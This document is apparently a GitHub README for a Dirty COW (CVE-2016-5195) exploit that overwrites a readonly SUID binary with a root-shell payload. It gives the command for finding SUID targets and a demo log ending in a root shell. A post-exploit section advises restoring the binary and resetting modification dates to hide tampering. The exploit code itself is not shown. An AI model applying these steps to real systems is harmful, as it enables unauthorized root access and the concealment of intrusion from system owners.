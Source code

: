 # Disclaimer
I am not  responsible for anything you do with this code. This code comes with no warranty.

# Description
Exploit for CVE-2016-5195 which maps a readonly SUID executable to memory (readonly) and
uses the race condition to overwrite it with an ELF of our choice. Payloads
are available in NASM format alongside the exploit code(cowshell-x86.asm && cowshell-x86_64.asm) if
you wish to see what's inside `cashm0ney`.

Payload elevates with `setuid(0)`, places `0` in `vm.dirty_writeback_centisecs`
to prevent the crash due to filesystem writeback, and pops a shell(`/bin/sh`). 
This version does not attempt to write to `/proc/self/mem`, so it should
be viable on CentOS/RHEL boxes. Still relies on ptrace, so it may fail if ptrace
is restricted on the target system.
# Pre-Exploit
Find a SUID executable that your current user has at least read access to:

`find / -type f -perm 4755`

# Demo
<pre>
meow@dirtytest:~/Desktop$ ./derpyc0w /bin/ping /tmp/ping
[*] Opened /bin/ping
[*] Backing up /bin/ping to /tmp/ping
[*] File mapped at 0x0x7f0cbe7ce000
[*] Waiting for child to alert
[*] Starting madvise thread.
[*] Alerted by child.
[*] Preparing to write 262 bytes
[*] Trying to perform writes.
[*] Wrote byte to 0
[*] Wrote byte to 1
[*] Wrote byte to 2
[*] Wrote byte to 3
[*] Wrote byte to 4
[*] Wrote byte to 5
[*] Wrote byte to 6
[*] Wrote byte to 7
[*] Wrote byte to 8
SNIP
[*] Wrote byte to 259
[*] Wrote byte to 260
[*] Wrote byte to 261
[+] w00t, writes finished
[+] Popping shell. Remember to restore /bin/ping from /tmp/ping with correct perms!
# id
uid=0(root) gid=1000(meow) groups=1000(meow),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),131(sambashare)
# 

</pre>

# Post-Exploit
You should restore the binary which got overwritten to it's original path from the backup that was created, and remember to chown && chmod it back to the correct ownership and permissions. Touch the modification dates back for the trifecta. 